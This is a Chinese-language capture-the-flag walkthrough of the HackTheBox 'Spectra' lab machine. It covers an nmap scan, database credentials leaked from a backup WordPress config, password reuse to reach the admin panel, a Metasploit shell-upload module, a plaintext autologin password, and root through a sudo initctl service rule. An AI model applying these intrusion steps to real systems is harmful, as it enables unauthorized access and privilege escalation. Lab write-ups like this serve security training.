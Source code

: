# HackTheBox-Spectra

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 10000 -A -sS 10.129.248.82  
  
Host is up (0.14s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)  
| ssh-hostkey:   
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)  
80/tcp   open  http    nginx 1.17.4  
|_http-server-header: nginx/1.17.4  
|_http-title: Site doesn&#39;t have a title (text/html).  
3306/tcp open  mysql   MySQL (unauthorized)  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).  
TCP/IP fingerprint:  
OS:SCAN(V=7.94%E=4%D=4/15%OT=22%CT=1%CU=31117%PV=Y%DS=2%DC=T%G=Y%TM=661CEC3  
OS:A%P=x86_64-apple-darwin21.6.0)SEQ(SP=100%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SE  
OS:Q(SP=100%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=100%GCD=2%ISR=10E%TI=Z  
OS:%CI=Z%II=I%TS=A)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53A  
OS:ST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=  
OS:M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=  
OS:Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S&#43;%F=AS%RD=0%Q  
OS:=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%  
OS:T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD  
OS:=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL  
OS:=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)  
  
Network Distance: 2 hops  
  
TRACEROUTE (using port 21/tcp)  
HOP RTT       ADDRESS  
1   109.26 ms 10.10.16.1  
2   150.71 ms 10.129.248.82  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 54.99 seconds  
```  
存在`80 22 3306`端口  
访问`80`端口，点击链接发现均跳转到了`spectra.htb`域名，在`/etc/hosts`添加  
利用`dirsearch`目录爆破，`/testing/`存在目录遍历  
`wp-config.php.save`存在数据库泄漏  
```bash  
define( &#39;DB_NAME&#39;, &#39;dev&#39; );  
  
/** MySQL database username */  
define( &#39;DB_USER&#39;, &#39;devtest&#39; );  
  
/** MySQL database password */  
define( &#39;DB_PASSWORD&#39;, &#39;devteam01&#39; );  
  
/** MySQL hostname */  
define( &#39;DB_HOST&#39;, &#39;localhost&#39; );  
  
/** Database Charset to use in creating database tables. */  
define( &#39;DB_CHARSET&#39;, &#39;utf8&#39; );  
  
/** The Database Collate type. Don&#39;t change this if in doubt. */  
define( &#39;DB_COLLATE&#39;, &#39;&#39; );  
```  
直接登陆`3306`，但是并不能连接，这里密码复用登陆后台  
用户名在首页处得到`administrator`  
进入后台后得知`WordPress 5.4.2`版本  
利用`msf`进行getshell  
`exploit/unix/webapp/wp_admin_shell_upload`  
`/opt/autologin.conf.orig`文件  
```orig  
# Copyright 2016 The Chromium OS Authors. All rights reserved.  
# Use of this source code is governed by a BSD-style license that can be  
# found in the LICENSE file.  
description   &#34;Automatic login at boot&#34;  
author        &#34;chromium-os-dev@chromium.org&#34;  
# After boot-complete starts, the login prompt is visible and is accepting  
# input.  
start on started boot-complete  
script  
  passwd=  
  # Read password from file. The file may optionally end with a newline.  
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do  
    if [ -e &#34;${dir}/passwd&#34; ]; then  
      passwd=&#34;$(cat &#34;${dir}/passwd&#34;)&#34;  
      break  
    fi  
  done  
  if [ -z &#34;${passwd}&#34; ]; then  
    exit 0  
  fi  
  # Inject keys into the login prompt.  
  #  
  # For this to work, you must have already created an account on the device.  
  # Otherwise, no login prompt appears at boot and the injected keys do the  
  # wrong thing.  
  /usr/local/sbin/inject-keys.py -s &#34;${passwd}&#34; -k enter  
end script  
```  
利用`chatgpt`分析一下  
```bash  
这个脚本是用于在启动时自动登录的。下面是对脚本的解释：  
  
1. 脚本的目的是在系统启动完成后自动登录。  
2. 它会在启动完全完成后开始运行，也就是在 &#34;boot-complete&#34; 服务启动后。  
3. 脚本首先会尝试从两个可能的目录中读取密码文件：&#34;/mnt/stateful_partition/etc/autologin&#34; 和 &#34;/etc/autologin&#34;。如果找到密码文件，则会读取其中的密码。  
4. 如果成功读取到密码，则会使用 &#34;/usr/local/sbin/inject-keys.py&#34; 工具将密码注入到登录提示中。这样就可以实现自动登录。  
5. 脚本中的注释提到，为了让自动登录正常工作，你必须已经在设备上创建了一个账户。否则，在启动时不会显示登录提示，注入的键会执行错误的操作。  
```  
在`/etc/autologin/passwd`发现密码`SummerHereWeCome!!`  
在`katie`用户处发现user的`flag`，所以很大概率是`katie`的密码  
登陆成功后，`cat user.txt`  
```bash  
katie@spectra ~ $ sudo -l  
User katie may run the following commands on spectra:  
    (ALL) SETENV: NOPASSWD: /sbin/initctl  
```  
可以`root`权限执行`initctl`  
看一下可以编辑的服务`sudo initctl list`  
找到几个以`test`开头的可疑服务，进行查看一下  
所有的服务都在/etc/init  
```bash  
cat /etc/init/test.conf  
  
description &#34;Test node.js server&#34;  
author      &#34;katie&#34;  
  
start on filesystem or runlevel [2345]  
stop on shutdown  
  
script  
  
    export HOME=&#34;/srv&#34;  
    echo $$ &gt; /var/run/nodetest.pid  
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js  
  
end script  
  
pre-start script  
    echo &#34;[`date`] Node Test Starting&#34; &gt;&gt; /var/log/nodetest.log  
end script  
  
pre-stop script  
    rm /var/run/nodetest.pid  
    echo &#34;[`date`] Node Test Stopping&#34; &gt;&gt; /var/log/nodetest.log  
end script  
```  
直接利用`test.conf`进行提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404152214139.png)
`sudo initctl start test`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404152214125.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-spectra/  

